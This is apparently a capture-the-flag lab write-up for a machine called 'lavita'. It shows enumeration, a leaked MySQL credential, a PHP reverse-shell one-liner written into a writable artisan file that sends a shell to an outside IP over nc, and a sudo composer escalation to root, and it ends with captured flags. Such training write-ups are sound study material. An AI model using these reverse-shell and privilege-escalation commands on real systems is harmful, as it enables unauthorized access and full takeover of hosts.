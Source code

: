 ![[Pasted image 20241011194844.png]]
- Identified `postfix` file
![[Pasted image 20241011193902.png]]
- Identified `mysql` credentials (`lavita:sdfquelw0kly9jgbx92`)
![[Pasted image 20241011194047.png]]
- Identified other interesting files
![[Pasted image 20241011194148.png]]
- Tested `su skunk` using credentials `skunk:skunk`
![[Pasted image 20241011194628.png]]
- Uploaded `pspy32` to target
![[Pasted image 20241011195835.png]]
- Ran `./pspy32` and identified processes running for user `skunk` (UID=1001)
![[Pasted image 20241011200348.png]]
- Run `ls -lah /var/www/html/lavita/artisan` to check permissions for artisan, and identify that user `www-data` has write access
![[Pasted image 20241011201020.png]]
- Ran `cat /var/www/html/lavita/artisan` & identified php file
![[Pasted image 20241011201506.png]]
## Lateral Movement vector
- Ran `nc -nvlp 4545` to start netcat listener on port 4545
- Ran `echo "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.250 4545>/tmp/f'); ?>" > /var/www/html/lavita/artisan` to echo PHP reverse shell script into `artisan` file
- Caught reverse shell with netcat as `skunk` user
![[Pasted image 20241011202317.png]]
---
# Privilege Escalation
## Local Enumeration
- `skunk` previously identified as member of `sudo` group, so ran `sudo -l`
![[Pasted image 20241011202424.png]]
## Privilege Escalation vector
- Identified [GTFObins](https://gtfobins.github.io/gtfobins/composer/#sudo) for `composer` run by `sudo`, so modified `composer.json` with `echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json` as `www-data` user
![[Pasted image 20241011203853.png]]
- Ran `sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x` as `skunk` user and gained `root` access
![[Pasted image 20241011203943.png]]
- Ran `cat /root/proof.txt` to print `proof.txt`
---
# Trophy & Loot
`local.txt` = `9aca8d958ec6c654109f8bfffe951a19`
`root.txt` = `0d57d7ed54dc6b2b087332f04ff4f26e`